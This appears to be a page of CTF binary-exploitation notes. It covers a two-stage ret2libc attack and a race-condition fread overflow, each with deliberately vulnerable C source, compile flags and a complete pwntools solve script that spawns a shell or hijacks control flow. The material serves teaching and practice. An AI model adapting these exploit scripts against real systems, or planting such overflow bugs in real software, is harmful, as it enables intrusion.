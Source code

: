 ```yaml
---
sort : 8
---
```


# Scenarios 

## Multiple BOFs > Ret2Libc

> PIE Disabled & NO Canary 

the idea of the challenge is to leak the libc address from the first BOF, by creating a rop chain that will call `puts` from .plt and pass the `puts.got` as an arguemnt. kowing the leaked address we calculate the libc address and execute system in the next rop chain in the second BOF.


> bianry.c

```c
#include<stdio.h>
#include<string.h>

void init_buffer(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void helper(void) {
  __asm__(
    "pop %rdi\n"
    "ret\n"
  );
}

void BOF(){
    char buf[0x10];
    fgets(buf, 0x100, stdin);
    size_t len = strcspn(buf, "\n");
    buf[len] = '\0';
}

void Exploit(){
    char buf[0x500]; // padding 

    BOF();
    puts("Hii");
    BOF();
}

void main(int argc, char **argv, char **envp){
    init_buffer();
    puts("Hii");
    Exploit();
}
```

> compile

```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./binary", checksec=False)
libc = ELF("./libc.so.6", checksec=False)  
context.binary = elf = exe
context.endian = 'little'
context.arch = 'amd64' 

io = process([exe.path])

rop = ROP(elf)
rop.raw(b'A'*40)
rop.raw(rop.ret.address)
rop.puts(elf.got["puts"])
rop.raw(elf.sym._start)

log.success(rop.dump())
io.sendlineafter(b'Hii\n', rop.chain())

leak = hex(unpack(io.recvline().rstrip(), "all"))
log.success(f'leaked puts.got = {leak}')
log.success(f'libc.symbols["puts"] = {hex(libc.symbols["puts"])}')

libc.address = int(leak, 16) - libc.symbols["puts"]
log.success(f'libc.address = {hex(libc.address)}')

bin_sh = next(libc.search(b'/bin/sh'))

rop2 = ROP(libc)
rop2.raw(b'A'*40)
rop2.raw(rop.ret.address)
rop2.system(bin_sh)

log.success(rop2.dump())
io.sendlineafter(b'Hii\n', rop2.chain())

io.interactive()
```

<br>
<br>

## Race Condition & BOF

> inspired by 'nahmnahmnahm' challenge - NahamCON CTF 2023

```note 
the challege gives you the ability to create and write into files and pass those files name to the running binary !
```

this is a great challenge that shows how using `fread` can lead to a BOF, by passing *nmemb* the value of `0x1000` & not closing the file when done using `fclose(fp)` (*causes seg fault*).

```c
size_t fread(void *restrict ptr, size_t size, size_t nmemb, FILE *restrict stream);

// The function fread() reads nmemb items of data, each size bytes long,from the stream pointed to by stream, storing them at the location given by ptr.

// NOTE :: "nmemb" must equal the size/length of the buffe/array to be written
```

so the main idea was to send a file name that doesn't contains *flag*, and it's not a copy of it, and it's size doesn't exceed 80.

And here where we found the Race Condition problem that we can take advantage of !!

By creating a file (i.e. it's name *empty*) that contains only a single null byte, after the file accepted by the running process it will hold on running `getchar()` function, waiting for us to pass any char.

So we can abuse this by modifing the *empty* file content with a payload of our choice, that leads to a BOF. 

> binary.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

void winning_function(){
  char contents[256]; 
  FILE *f;

  puts("Welcome to the winning function!");
  f = fopen("flag.txt", "r");
  fread(contents, 1uLL, 0x100uLL, f);
  puts(contents);
  fclose(f);
}

void vuln(char *filename)
{
  char buffer[80];
  FILE *f;

  f = fopen(filename, "r");
  if ( f ){
    fread(buffer, 1uLL, 0x1000uLL, f);      // Vulnerable !! 
    printf("%s", buffer);
  }
  else{
    perror("fopen");
  }
}

int main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);

  struct stat st;
  char filename[128];
  memset(filename, 0, sizeof(filename));

  printf("Enter file: ");
  fgets(filename, 127, stdin);
  filename[strcspn(filename, "\n")] = 0;

  if (strstr(filename, "flag")){
    perror("filename contains flag");
    return -1;
  }
  else{

    if ( lstat(filename, &st) == -1 ){
      perror("stat");
    }
    else if ( (st.st_mode & 0xF000) == 40960 ){
      perror("is_symlink");
      return -1;
    }
    else if ( st.st_size <= 80 ){
      puts("Press enter to continue:");
      getchar();                            // we can abuse it !! 
      vuln(filename);
    }
    else{
      perror("File size");
      return -1;
    }
  }

  return 0;
}
```

> compile

```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./binary", checksec=False)  
context.binary = elf 

def main():
    io = process([elf.path])

    rop = ROP(elf)
    rop.raw(b"A"*104)
    rop.raw(rop.ret.address)
    rop.call(elf.sym.winning_function, [])
    log.success(f'rop.dump() == {rop.dump()}')

    f = open('empty', 'wb'); f.write(b'\x00'); f.close()
    io.sendlineafter(b'Enter file: ', b'empty')

    # while waiting for getchar()

    f = open('empty', 'wb'); f.write(rop.chain()); f.close()
    io.sendlineafter(b'Press enter to continue:\n', b'\n')
    
    io.interactive()

if __name__ == "__main__":
    main()
```

